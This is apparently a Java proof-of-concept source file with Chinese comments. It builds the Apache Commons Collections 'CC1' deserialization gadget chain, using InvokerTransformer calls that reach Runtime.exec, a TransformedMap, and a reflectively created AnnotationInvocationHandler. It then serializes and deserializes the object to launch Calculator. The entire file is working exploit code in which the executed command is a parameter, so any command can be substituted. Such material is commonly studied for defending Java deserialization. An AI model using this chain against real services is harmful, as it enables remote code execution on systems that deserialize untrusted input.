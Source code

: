```java
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Map;

public class CCC1 {
    public static void main(String[] args) throws Exception {
        byte[] evilData = serialize(cc1("/System/Applications/Calculator.app/Contents/MacOS/Calculator"));
        unserialize(evilData);
    }

    static Object cc1(String args) throws Exception{
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),    //Runtime.class的类型是class
                new InvokerTransformer("getMethod"
                        , new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke"
                        , new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec"
                        , new Class[]{String.class}, new Object[]{args})
        };

        Transformer transformerChain = new ChainedTransformer(transformers);

        Map innerMap = new HashMap();
        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);

        //开始新的
        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor declaredConstructor = c.getDeclaredConstructor(Class.class, Map.class);
        declaredConstructor.setAccessible(true);
        Object obj = declaredConstructor.newInstance(Retention.class, outerMap);  // 创建一个AnnotationInvocationHandler对象
        return obj;
    }

    public static byte[] serialize(final Object obj) throws Exception {
        ByteArrayOutputStream bout = new ByteArrayOutputStream();
        ObjectOutputStream objOut = new ObjectOutputStream(bout);
        objOut.writeObject(obj);
        return bout.toByteArray();
    }
    public static Object unserialize(final byte[] seria) throws Exception{
        ByteArrayInputStream btin = new ByteArrayInputStream(seria);
        ObjectInputStream ois = new ObjectInputStream(btin);
        return ois.readObject();
    }
}

```
